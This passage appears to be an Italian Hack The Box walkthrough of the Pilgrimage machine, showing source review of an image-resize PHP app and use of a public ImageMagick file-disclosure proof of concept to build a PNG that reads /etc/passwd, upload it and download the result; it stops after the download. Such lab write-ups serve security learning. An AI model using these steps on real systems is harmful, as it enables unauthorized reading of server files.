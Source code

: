 Abbiano un po di cartelle e diversi file .php

```
┌──(root㉿kali)-[/home/kali/htb/pilgrimage/dump]
└─# ls
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor
```

Dopo aver esaminato i diversi file .php troviamo quanto segue 

```bash
┌──(root㉿kali)-[/home/kali/htb/pilgrimage/dump]
└─# cat index.php | grep shrunk
      exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);
      $upload_path = "http://pilgrimage.htb/shrunk/" . $newname . $mime;
``` 

ho cercato la parola 'shrunk' in quanto era la directory dove venivano salvati le immagine ridimensionata

dopo un po di ricerche su google troviamo questa [exploit](https://github.com/Sybil-Scan/imagemagick-lfi-poc) che sembra fare al caso nostro 

ImageMagick è vulnerabile alla divulgazione di informazioni. Quando analizza un'immagine PNG , l'immagine risultante potrebbe aver incorporato il contenuto di un file remoto arbitrario.

# EXPLOITATION

Segento del istruzione dell'exploit generiamo "exploit.png" che ci consentirà quindi di leggere il contenuto di un file remoto arbitrario.

```bash
┌──(root㉿kali)-[/home/kali/htb/pilgrimage/imagemagick-lfi-poc]
└─# python3 generate.py -f "/etc/passwd" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /etc/passwd
   [>] PoC PNG generated > exploit.png

┌──(root㉿kali)-[/home/kali/htb/pilgrimage/imagemagick-lfi-poc]
└─# ls
exploit.png  generate.py  README.md
```

lo carichiamo sul sito 

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/pilgrimange1.png)
e che lo scarichiamo tramite wget 

```bash
┌──(root㉿kali)-[/home/kali/htb/pilgrimage/imagemagick-lfi-poc]
└─# wget http://pilgrimage.htb/shrunk/64a3b91034df1.png
--2023-07-04 02:16:35--  http://pilgrimage.htb/shrunk/64a3b91034df1.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1688 (1.6K) [image/png]
Saving to: ‘64a3b91034df1.png’

64a3b91034df1.png                                          100%[=======================================================================================================================================>]   1.65K  --.-KB/s    in 0s

2023-07-04 02:16:35 (92.8 MB/s) - ‘64a3b91034df1.png’ saved [1688/1688]

```